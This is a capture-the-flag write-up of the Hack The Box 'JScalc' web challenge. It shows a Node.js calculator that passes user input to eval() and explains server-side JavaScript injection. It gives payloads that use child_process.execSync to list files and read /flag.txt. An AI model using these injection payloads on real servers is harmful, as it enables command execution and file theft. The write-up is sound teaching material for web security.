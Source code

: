 ```yaml
---
clayout: ctf
title: JScalc
date: 2024-11-16
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: JScalc
      link: https://app.hackthebox.com/challenges/551
      thumbnail: /ctf/hack-the-box/challenges/web/jscalc/thumbnail.png
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/551
          thumbnail: /ctf/hack-the-box/challenges/web/jscalc/pwned.png
---
```


## Challenge description

In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids.
With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet
trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑

## Challenge overview

The challenge presents us with a web application that features a JavaScript calculator. Users can input formulas, which
the application evaluates and returns the result.

![JScalc - calculator](/ctf/hack-the-box/challenges/web/jscalc/home.png)

### How it works

Clicking the **Calculate** button sends a `POST` request to the `/api/calculate` endpoint, where the following
server-side code processes the formula:

```js
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${formula} ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

**Key Observations**:

1. The application uses the **`eval`** function to evaluate user-provided input.
2. The formula is executed within a function context, meaning arbitrary JavaScript can potentially be executed.

This reliance on `eval` makes the application vulnerable to **Server-Side JavaScript Injection (SSJI)**, allowing us to
execute arbitrary JavaScript code on the server.

## Exploitation

To confirm SSJI, we inject:

```js
process.platform
```

The response includes the server's platform `linux`, it confirms the vulnerability.

Using **Node.js’s `require` function**, we can execute arbitrary system commands through the `child_process` module. For
instance:

- **List files in the directory**:
    ```js
    require('child_process').execSync('ls').toString()
    ```

- **Retrieve the flag**:
    ```js
    require('child_process').execSync('cat /flag.txt').toString()
    ```

After injecting the payload, the server processes the request, and the response includes the contents of the `flag.txt`
file.

![JScalc - flag](/ctf/hack-the-box/challenges/web/jscalc/exploit.png)

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

## References

- [MDN Web Docs - eval()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
- [Node.js - child_process](https://nodejs.org/api/child_process.html)
- [OWADP NodeGoat - Server-Side Injection](https://ckarande.gitbooks.io/owasp-nodegoat-tutorial/content/tutorial/a1_-_server_side_js_injection.html)
- [Github - Code injection](https://github.com/btarr/node-eval-code-injection)
